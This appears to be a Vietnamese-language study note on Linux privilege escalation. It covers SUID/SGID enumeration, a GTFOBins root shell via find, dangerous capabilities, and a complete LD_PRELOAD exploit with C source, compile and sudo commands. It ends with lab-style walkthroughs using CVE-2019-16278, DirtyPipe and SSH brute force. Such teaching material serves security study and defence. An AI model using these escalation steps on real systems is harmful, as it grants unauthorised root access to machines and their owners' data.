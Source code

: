 # Tài liệu và tool/script tham khảo:

[GTFOBins](https://gtfobins.github.io/)
[Fetching Title#vekd](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

---

# Set User ID (SUID)

> [!important] + Là một quyền đặc biệt trên Unix/Linux.<br>+ Khi 1 file thực thi (executable) có SUID bit, người dùng thực thi file đó sẽ có quyền của chủ sở hữu file trong suốt quá trình chạy.<br>+ Dùng SUID cho người dùng bình thường khi cần thực thi, một số tác vụ yêu cầu root nhưng được kiểm soát.

**Ví dụ**: /usr/bin/passwd  
-rwsr-xr-x  
⇒ “**s**” xuất hiện ở cột quyền của user (rws) thể hiện file đã set SUID
```Bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
- **Các options**:
    - -4000 : giá trị của bit SUID
    - 2>/dev/null : bỏ qua lỗi permission denied
```Bash
find / -user root -perm -2000 -exec ls -ldb {} \; 2>/dev/null
```
- **Các options**:
    - -2000 : giá trị của bit SGID
    - 2>/dev/null : bỏ qua lỗi permission denied

> Lợi dụng SUID và SGID để leo thang đặc quyền

> [!important] + Nếu một binary như find, nano, vim, bash, python, ... có SUID ta có thể tận dụng chức năng nó để thực thi shell với quyền root.<br>+ Sử dụng [GTFOBins](https://gtfobins.github.io/).
**Ví dụ**:
```Bash
ls -l /usr/bin/find
```

\#Giả sử có SUID: -rwsr-xr-x  
\#Nhập:

```Bash
./find . -exec /bin/sh -p \; -quit
```

> **Giải thích**: **-p** giúp giữ lại UID của người sở hữu file thực thi ⇒ Lên được root

---

# Linux Capabilities

> [!important] + Chia nhỏ root thành các quyền riêng biệt, chỉ cấp đúng quyền chương trình cần.<br>+ Ví dụ: ping không cần root, chỉ cần cap_net_raw

## Cấu trúc

> [!important] Cấu trúc mỗi file (hoặc tiến trình) có 3 bộ capabilities:

### Permitted(**p**)

Danh sách capabilities mà tiến trình được phép dùng.

Nếu capability không nằm trong **p** thì tiến trình tuyệt đối không được phép dùng capability đó dù bằng cách nào.

### Effective(e)

Danh sách capabilities hiện đang được kích hoạt và có hiệu lực. Nếu capability chỉ nằm trong **p** mà không nằm trong **e** thì được phép có nhưng chưa được dùng.

### Inheritable(i)

Danh sách capabilities có thể truyền sang tiến trình con (ít gặp hơn).

## Quét capability

```Bash
getcap -r /2>/dev/null
```

```Bash
getcap -r /2>/dev/null | grep -E 'cap_(sys_admin|dac_override|setuid|setgid)'
```

> **Lưu ý**: Có thể cần phải whereis getcap rồi dùng path mới chạy command được.

### Một số capability nguy hiểm có thể exploit

- cap_sys_admin : làm được mọi thứ
- cap_dac_override : bỏ qua mọi permission checking (read, exec file, ...)
- cap_setuid / cap_setgid : chuyển UID, GID ⇒ leo thang
- cap_net_raw : gửi packet (sniff, spoof)
- cap_sys_module : load kernel module

---

# Shared Libraries và leo thang đặc quyền qua LD_PRELOAD

> [!important] Cách khai thác: user thường ⇒ kiểm tra sudo -l ⇒ phát hiện quyền chạy binary nào đó (no passwd) ⇒ phát hiện LD_PRELOAD ⇒ Viết mã C ⇒ Chạy sudo LD_PRELOAD=/tmp/es.co/binary ⇒ Lên root

> [!important] Shared Libraries là những đoạn mã được biên dịch sẵn mà nhiều chương trình có thể dùng lại thay vì viết lại từ đầu.

**Có 2 loại**:

- Static libary (.a) : gộp trực tiếp vào binary khi biên dịch.
- Shared library (.so) : được load khi chương trình chạy.

Muốn xem một chương trình cần libary nào ⇒

```Bash
ldd /bin/ping
```

  

> [!important] LD_PRELOAD là biến môi trường đặc biệt trong Linux. Nó sẽ ép hệ thống load thư viện mà ta chỉ định của chương trình. Cho phép ta override lên các hàm hệ thống như getuid(); system(); …

> [!important] Cách khai thác: giả sử ta là user thường, có quyền chạy binary nào đó bằng sudo, không yêu cầu mật khẩu:

```Bash
sudo -l
```

```Bash
(ALL) NOPASSWD: /usr/local/bin/sys_backup
```

⇒ /usr/local/bin/sys_backup không là SUID, không thuộc GTFOBins nên không khai thác trực tiếp được.

Tuy nhiên, ta thấy:

```Bash
env_keep+=LD_PRELOAD
```

⇒ Lỗ hỏng.

**Các bước khai thác**:

+ Bước 1: Viết chương trình C:

```C
\#include <stdio.h>
\#include <stdlib.h>
\#include <sys/types.h>

void_init() {
	unsetenv("LD_PRELOAD");
	setresuid(0, 0, 0);
	system("/bin/bash -p");
}
```

⇒ Dùng init() để Shared Libraries load bằng LD_PRELOAD thì hàm _init() chạy đầu tiên.

+ Bước 2: Compile code thành shared object (.so)

```Bash
gcc -fPIC -shared -nostartfiles -o /tmp/escalate.so escalate.c
```

> **Giải thích**: -fPIC dùng để tạo mã máy không phụ thuộc vào địa chỉ cố định trên bộ nhớ. Vì .so có thể load cùng nhiều process khác nhau tại các vị trí khác nhau. Nếu không có -fPIC thì thư viện có thể bị crash.  
> -shared : tạo ra moọt .so thay vì .out hoặc ELF binary.  
> -nostartfiles : chỉ định gcc không thêm bất kỳ starup files nào vào chương trình. Nó sẽ tạo các file như: _start, crt1.0, … để khởi tạo môi trường trước khi gọi main(); nhưng ta không cần main() mà chỉ cần _init().

+ Bước 3: Gọi binary được cấp quyền bằng LD_PRELOAD:

```Bash
sudo LD_PRELOAD=/tmp/escalte.so /usr/local/bin/sys_backup
```

⇒ Lấy được root

---

# Một ví dụ khai thác thực tế:

## Tình huống 1:

Quét nmap thì tra ra được nostromo 1.9.6, OSINT ta biết CVE-2019-16278 nên ta sẽ khai thác được 1 chút và vào được shell của một user có giới hạn.

Giờ ta leo thang bằng cách uname -a thì tra được version kernel là 5.11.051100-generic thì có lỗi là CVE-2022-0847. Vào github thì có cả file sẵn để khai thác. Điều hướng cd/tmp (vì các khu vực khác ta không có quyền đọc/ghi). Tạo một python3 -m http.server 8080 để mở một server cho phép wget trên target machine.

Ta biên dịch ra:

```Bash
gcc exploit -2.c -o exploit -2
```

Ta có thể check SUID, dù không có trên GTFOBins nhưng vẫn có thể:

```Bash
./exploit-2 /usr/bin/su
```

⇒ **Root**

## Tình huống 2:

Quét nmap tra được ssh, brute-force rồi kiểm tra capabilities thì thấy python3.9 có +ep, ta kiểm tra GTFOBins ⇒ **Root**